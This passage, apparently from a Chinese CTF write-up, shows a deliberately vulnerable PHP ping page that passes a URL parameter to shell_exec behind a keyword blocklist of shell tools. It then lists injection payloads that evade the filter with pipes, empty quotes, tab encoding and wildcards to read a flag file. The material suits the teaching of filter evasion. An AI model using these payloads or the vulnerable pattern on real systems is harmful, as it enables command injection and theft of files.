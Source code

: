 ```php
<?php
  error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/(;|'| |>|&| |\\$|python|sh|nc|tac|rev|more|tailf|index|php|head|nl|tail|less|cat|ruby|perl|bash|rm|cp|mv|\{)/i", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no no no!')
window.location.href='index.php';</script>");
  }else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("<script language='javascript' type='text/javascript'>
alert('no flag!')
window.location.href='index.php';</script>");
  }
  $a = shell_exec("ping -c 4 ".$ip);
}
  ?>
```

可以看到，题目使用 preg_match("/.*f.*l.*a.*g.*/", $ip) 过滤了flag，那么我们读取flag时就可以用以下方法绕过：

假设flag在/flag中:

```powershell
/?url=127.0.0.1|ca""t%09/fla?
/?url=127.0.0.1|ca""t%09/fla*

假设flag在/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla????
/?url=127.0.0.1|ca""t%09/fla*

假设flag在/flags/flag.txt中:
/?url=127.0.0.1|ca""t%09/fla??/fla????
/?url=127.0.0.1|ca""t%09/fla*/fla*
```

我们可以用以上格式的payload读取到flag。

下面说一下原理：

```php
在正则表达式中，?这样的通配符与其它字符一起组合成表达式，匹配前面的字符或表达式零次或一次。
在shell命令行中，?这样的通配符与其它字符一起组合成表达式，匹配任意一个字符。
```

同理，我们可以知道 * 通配符：

```php
在正则表达式中，*这样的通配符与其它字符一起组合成表达式，匹配前面的字符或表达式零次或多次。
在shell命令行中，* 这样的通配符与其它字符一起组合成表达式，匹配任意长度的字符串。这个字符串的长度可以是0，可以是1，可以是任意数字。
```

##### 用反斜杠绕过关键字过滤

还是上面那个示例代码：
